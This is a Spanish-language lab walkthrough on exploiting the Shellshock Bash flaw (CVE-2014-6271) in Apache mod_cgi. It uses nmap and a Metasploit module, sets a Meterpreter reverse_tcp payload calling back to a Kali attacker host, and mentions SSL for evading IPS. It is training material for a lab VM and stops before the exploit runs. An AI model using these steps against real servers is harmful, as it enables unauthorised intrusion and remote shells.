




# Explotar vulnerabilidad CVE-2014-6271 (Shellshock) presente en Apache.

Este laboratorio muestra como usar la vulnerabilidad ***Shellshock*** que consigue ejecutar código mediante su inyección en una variable de entorno de Bash. Para ello usa el módulo ***mod_cgi*** del servidor Apache. Aquí tienes información sobre la vulnerabilidad: https://www.cvedetails.com/cve/CVE-2014-6271/.

La debilidad se encuentra en cómo la shell ***Bash*** gestiona las variables de entorno externas. Utiliza ***scripts CGI*** en el servidor web Apache inyectando una función maliciosa en la variable de entorno ***HTTP_USER_AGENT***.

Usamos ***nmap*** contra la víctima para determinar si está presente el servidor Apache.
```
nmap -sV 192.168.20.13 -p 80, 443
```

Como puede observarse en la imagen, está presente el servidor ***Apache 2.4.7*** en el puerto ***80***.



Cargamos la consola de ***Metasploit*** sino estuviera ya iniciada.
```
msfconsole
```

Procedemos a cargar el módulo para realizar el ataque.
```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

Mostramos las ***opciones*** de este exploit.
```
show options
```

Las opciones son las siguientes.



Las configuraciones que debemos proporcionar son:

* *CMD_MAX_LENGTH*: Obligatoria. Es el número de caracteres que vamos a inyectar en la víctima. El valor 2048 suele ser suficiente para albergar las diferentes ***payloads*** disponibles. No lo cambiamos.
* *CVE*: Obligatoria. Contiene la vulnerabilidad a explotar, pudiendo elegir entre CVE-2014-6271 (https://www.cvedetails.com/cve/CVE-2014-6271/) y CVE-2014-6278 (https://www.cvedetails.com/cve/CVE-2014-6278/). Esta última es una variante de la anterior. Dejaremos el valor por defecto.
* *HEADER*: Obligatoria. Especifica la cabecera HTTP que será usada para inyectar el código malicioso. Debe ser ***User-Agent***, así que no la cambiamos.
* *METHOD*: Obligatoria. Especifica el verbo HTTP a utilizar. Debe ser ***GET***. No lo cambiamos.
* *Proxies*: Opcional. Permite relizar el ataque a través de un proxy. No lo usaremos.
* *RHOSTS: Obligatoria. IP(s) de la víctima(s). Ponemos la de ***Metasploitable-ubu1404***, que es ***192.168.20.13***.
* *RPATH*: Obligatoria. Ruta para los binarios usados por el ***Command Stager***. Cuando un payload es largo, el ataque podría no funcionar porque no es posible inyectar la totalidad de dicho payload. El ***Command Stager*** es un pequeño programa que puede ser inyectado, siendo su misión la de descargar el payload verdadero por trozos o partes (etapas). Dejamos la ruta por defecto.
* *RPORT*: Puerto que está sirviendo Apache. Como hemos visto con ***nmap*** es el ***80***. Lo dejamos tal cual.
* *SRVHOST*: Obligatoria. IP del servidor en la máquina ***Kali*** que recibirá la conexión del payload. Si solo disponemos de una IP, es indiferente. No cambiamos este ajuste.
* *SRVPORT*: Obligatoria. Puerto del servidor en la máquina ***Kali*** desde el que el ***CmdStager*** se descargará el payload. Dejamos este valor.
* *SSL*: Opcional. Podemos ocultar el tráfico del payload por medio de SSL. Su finalidad es evadir la detección de los ***IPS***. No lo usamos.
* *SSLCert*: Opcional. Certificado necesario para usar SSL. No lo usamos.
* *TARGETURI*: Ruta al script CGI que será inyectado y que deseamos ejecutar. Lo cambiamos a ***/cgi-bin/hello_world.sh***.
* *TIMEOUT*: Obligatorio. Tiempo de espera para recibir la response. Lo dejamos como está.
* *URIPATH*: Opcional. Este exploit no usa URI. Lo dejamos en blanco.
* *VHOST*: Opcional. Un ***Virtual host*** es una forma de alojamiento web que permite que varias paginas web puedan funcionar en un mismo host. Nuestro objetivo no es un virtual host, así que lo dejamos en blanco.

```
set RHOSTS 192.168.20.13
```

```
set TARGETURI /cgi-bin/hello_world.sh
```

Es el momento de mostrar los payloads compatibles con este ataque.
```
show payloads
```

Tenemos mucha diversidad.



Vamos a usar un ***Meterpreter***.
```
use linux/x86/meterpreter/reverse_tcp
```
```
show options
```

Debemos configurar las opciones del payload.



Establecemos como atacante la máquina de ***Kali***.
```
set LHOST 192.168.20.9
```

Respecto a ***LPORT*** dejamos el valor propuesto (***4444***). A este puerto se conectará el payload de meterpreter para ofrecernos la shell inversa.

Mostramos los ***targets***.
```
show targets
```

Solo hay un candidato: ***Linux***, por lo que no es necesario especificarlo.

